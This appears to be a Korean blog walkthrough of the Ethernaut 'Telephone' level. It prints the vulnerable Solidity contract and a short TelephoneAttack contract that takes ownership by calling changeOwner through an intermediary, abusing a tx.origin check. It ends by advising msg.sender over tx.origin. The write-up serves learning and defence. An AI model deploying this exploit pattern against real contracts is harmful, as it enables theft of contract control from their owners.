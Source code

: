 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 4) Telephone  
date: '2022-01-07 20:26:00'
author: 한성원
tags: ethernaut Telephone vulnerability
categories: 취약점분석
---
```



# 👋 1. Telephone
__Difficulty 1/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Ownership 뺐어오기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

    //owner의 주소
    address public owner;

    //constructor
    constructor() public {
        //setting owner as deployer
        owner = msg.sender;
    }

    //owner를 바꿀 수 있는 function
    function changeOwner(address _owner) public {
        // 만약 tx.origin과 msg.sender이 다르면 owner를 parameter의 주소로 바꿀 수 있다.
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제에서 우리는 ownership을 뺐어와야 한다.

그리고 우리는 코드분석에서 봤듯이 ownership을 가져올 수 있는 방법은 changeOwner()를 call하여 조건을 만족시키면 된다.

여기서 우리가 이해 해야할 점은 tx.origin과 msg.sender의 차이다.

tx.origin과 msg.sender의 차이는 __[이 글](https://holyhansss.github.io/vulnerability/tx.origin/tx_origin/)__ 에서 찾아볼수 있다.

만약 그래도 이해가 안된다면 서칭 고고!!

이해가 되었다면 이제 어떻게 풀지 감이 올 것이라고 생각한다.

__바로 Telephone.changeOwner()를 call하는 contract를 하나 더 만들어서 실행시키면 된다!__


주석을 통해 TelephoneAttack contract를 같이 분석 해보자!
최대한 간단하게 만들어보았다.
```solidity
contract TelephoneAttack {
    //Telephone contract의 address가 들어갈 곳
    address telephone;

    //constructor: TelephoneAttack의 주소를 parameter로 사용한다.
    constructor(address _telephone) public {
        telephone  = _telephone;
    }
    
    //Telephone contract를 공격하는 function
    //실제 공격해서 돈을 빼온다고 생각해 payable을 넣었다!
    function attack() public payable{
        //Telephone contract의 changeOwner를 parameter(msg.sender)와 함께 call한다.
        Telephone(telephone).changeOwner(msg.sender);
    }
}
```

Remix에서 Injected Web3 선택해 위 contract를 deploy하고 attack()을 누르면 ownership을 가져올 수 있다. 

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
tx.origin은 Ethereum official Docs에서도 사용하지 않을 것을 권장하고 있다. 또한 tx.origin 대신 msg.sender를 사용하기를 권장한다. tx.origin의 기능을 대부분 msg.sender가 대신 처리할 수 있기 때문이다. 정말정말정말정말 tx.origin을 사용해야하는 경우가 아니라면 그냥 안전하게 msg.sender를 사용하자!

그냥 나의 느낌인데 취약점을 공부하고 풀어보니 어떻게 풀지 감이 잡힌다. ethernaut이후에 직접 test과 다른 contract의 취약점을 직접 찾아보고 싶다. ~~찾아서 알려주면 내 경력+1 ㅋㅋㅋ~~
- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- tx.origin 취약점: https://holyhansss.github.io/vulnerability/tx.origin/tx_origin/

```toc

```